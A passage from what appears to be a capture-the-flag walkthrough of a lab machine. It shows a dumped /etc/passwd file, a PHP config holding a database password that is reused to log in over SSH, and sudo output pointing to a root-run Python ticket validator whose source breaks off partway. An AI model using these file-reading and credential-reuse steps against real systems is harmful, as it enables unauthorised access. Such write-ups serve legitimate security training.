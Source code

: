 ```console
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```
{: file="/etc/passwd"}
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```
We can then login as the development user with the password found in the php file.

## Privilege escalation
Once logged in we run `sudo -l`: 
```console
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```
It seems that we have rights to run a python script as root. The contents of the script can be found below:
```python
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
```